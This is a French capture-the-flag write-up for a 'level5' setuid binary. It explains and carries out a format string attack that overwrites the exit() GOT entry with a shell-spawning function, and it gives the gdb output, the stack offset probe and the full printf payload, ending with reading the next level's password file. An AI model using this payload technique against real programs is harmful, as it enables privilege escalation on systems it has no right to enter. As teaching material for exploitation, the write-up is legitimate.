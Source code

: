 ## Comportement
- J'ai des droits `level5` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5*`
- En exécutant le binaire (`./level5`), on observe:
  - qu'il attend un input de notre part.
  - qu'il print notre input avant de quitter.
  - il ne segfault pas meme si l'input est long.


## Analyse
- Conmme dans les 2 exercices precedents, nous devons manipuler la fonction printf() en utilisant une "string format attack". Notre principale préoccupation ici est que les fonctions n() et o() ne `return` jamais. Elles `exit` directement. On ne peut pas overflow l'EIP, le programme va quitter avant.
- Par contre on peut reecrire l'adresse de `exit()` en la remplacant par l'adresse de `o()` qui appelle un shell. 


## Résolution
- On recupere l'adresse de `o()` => `0x080484a4`
  ```shell
    (gdb) info function o
    ...
    0x080484a4  o
    ...
    (gdb)
  ```
- On recupere l'adresse de `exit()` => `0x8049838`
  ```shell
    (gdb) disas exit
    ...
    Dump of assembler code for function exit@plt:
    0x080483d0 <+0>:	jmp    *0x8049838
    ...
    (gdb)
  ```
- On doit print dans la memoire jusqu'a tomber sur la `exit()` => 4eme position
  ```shell
    python -c 'print "BBBB"+" %x"*5' | ./level5
    BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
  ```
- On craft notre payload:
  - avec l'adresse d'`exit()` en little endian => `\x38\x98\x04\x08` (4 bytes)
  - avec l'adresse de `o()` en decimal, moins les 4 bytes de l'adresse d'`exit()` => `134513824`. On lutilise avec le modifier `%d` car sinon il serait trop long.
  ```shell
  python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload
  cat /tmp/payload - | ./level5
  ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level6`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level6/.pass`)
  - quitter le shell (`exit`)
  - et passer au level6 (`su level6`) en renseignant ce password.
